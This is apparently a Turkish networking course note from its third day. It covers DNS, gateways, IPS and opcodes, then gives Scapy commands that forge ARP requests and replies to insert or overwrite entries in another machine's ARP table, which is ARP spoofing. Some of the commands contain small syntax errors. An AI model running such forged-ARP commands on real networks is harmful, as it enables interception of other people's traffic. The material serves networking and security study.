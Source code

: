 **3.Gün  22.07.2018**

DNS, UDP’den ve TCP’den çalışabilir

Bir protocol bir katmanda olacak diye birşey yok birden fazla katmanda da yeralabilir.

Gateway: LAN (=Local Area Network) ağında ki diğer bilgisayarlarla iletişim için veri paketlerinin ağ (network) dışına çıkmasını sağlayan bir kapı gibi düşünülebilir.

Cloudflare'ın yeni DNS sunucusu 1.1.1.1

**IPS** trafiğe ait paketleri inceler, uygulamalara yönelik zararlı paketleri raporlar ve ağ içerisine girişini engeller.

**OP Code** (Operation Code), işlem kodu, bilgisayar teknolojisinde makine dili komutunun, gerçekleştirilecek işlemi belirten kısmıdır.


**Scapy ile Karşı Makinenin ARP tablosuna IP eklemek için**:
```
$ scapy
>>> etherbaslik= Ether(dst="ff:ff:ff:ff:ff:ff",src=<"SRC_MAC_ADDR")
>>> arpbaslik=ARP(op=1,hwdst="<DEST_MAC_ADDR>",psrc="<DEFAULT_IP>",pdst="<TARGET_IP>",hwsrc="<SRC_MAC_ADDR>"
>>> paket = etherbaslik/arpbaslik
>>> sendp(paket,iface="eth0")
.
Sent 1 packets.
```

**Scapy ile Karşı Makine ARP tablosunda IP adresinin MAC adresini değiştirmek için**:

**NOT:** Karşı makinenin ARP tablosunda Kaynak IP adresinin tanımlı olması gerekir.

Bunun için; **ping -c 1 <DEST_IP>**
```
$scapy
>> etherbaslik=Ether(dst=<"DEST_MAC_ADDR">,src="31:31:30:30:30:31")
>>> arpbaslik=ARP(op=2,hwsrc="31:31:30:30:30:31",psrc=<"SRC_IP_ADDR">,pdst=<"DEST_IP_ADDR">)
>>> paket=etherbaslik/arpbaslik
>>> sendp(paket,iface="eth0")
.
Sent 1 packets.
```
